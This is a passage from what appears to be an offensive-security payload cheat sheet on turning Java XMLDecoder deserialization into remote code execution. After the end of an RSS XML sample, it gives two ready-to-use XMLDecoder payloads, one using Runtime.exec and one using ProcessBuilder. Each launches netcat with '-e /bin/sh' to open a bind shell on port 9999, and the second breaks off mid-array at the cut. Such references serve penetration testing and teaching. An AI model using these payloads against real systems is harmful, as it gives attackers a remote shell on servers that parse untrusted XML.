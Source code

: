 ```xml
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

## Java XMLDecoder XEE to RCE

XMLDecoder is a Java class that creates objects based on a XML message. If a malicious user can get an application to use arbitrary data in a call to the method **readObject**, he will instantly gain code execution on the server.

### Using Runtime().exec()

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

### ProcessBuilder

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
```